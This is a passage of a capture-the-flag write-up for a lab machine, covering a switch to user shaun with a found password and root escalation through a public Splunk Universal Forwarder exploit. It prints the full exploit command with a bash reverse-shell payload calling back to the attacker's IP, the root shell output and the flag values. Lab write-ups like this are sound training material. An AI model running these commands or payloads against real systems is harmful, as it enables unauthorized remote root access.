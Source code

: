 1. the author thinks that it's common for passwords to be accidentally entered into the email field
2. find the this password is owned by `shaun`

```plaintext
web@doctor:~$ su shaun
Password: Guitar123

shaun@doctor:/home/web$ cd

shaun@doctor:~$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

## Privilege Escalation of Machine : from shaun to root

We have not used Splunk yet, it must be involved in next step.

A French pentester, _Cl├⌐ment Notin_, wrote an article entitled
[Splunk Universal Forwarder Hijacking 2: SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)
and also made available an associated [exploit](https://github.com/cnotin/SplunkWhisperer2).

Let's check the prerequisites:

- Universal Forwarder Agents running (on port 8089)
- `splunkd` is running as root
- credentials, guessing again, shaun creds are re-used for the splunk agent (totally realistic)

```plaintext
$ ps -ef f | grep splunk
root        1141       1  0 21:19 ?        Sl     0:01 splunkd -p 8089 start
root        1143    1141  0 21:19 ?        Ss     0:00  \_ [splunkd pid=1141] splunkd -p 8089 start [process-runner]
```

Let's exploit the guesbox now:

```plaintext
$ git clone https://github.com/cnotin/SplunkWhisperer2
$ cd SplunkWhisperer2/PySplunkWhispherer2/
$ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.169 --username shaun --password Guitar123 --payload '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.169/8888 0>&1"'
```

Enjoy:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.209:35294 (family 2/IPv4, TCP)
bash: cannot set terminal process group (1143): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
uid=0(root) gid=0(root) groups=0(root)

root@doctor:/# cat /root/root.txt
2011c879032a897c9d4d517f7e448839

root@doctor:/# cat /home/shaun/user.txt
95cb0c0321ccb5c5cc4d617b2c4cb2bf
```
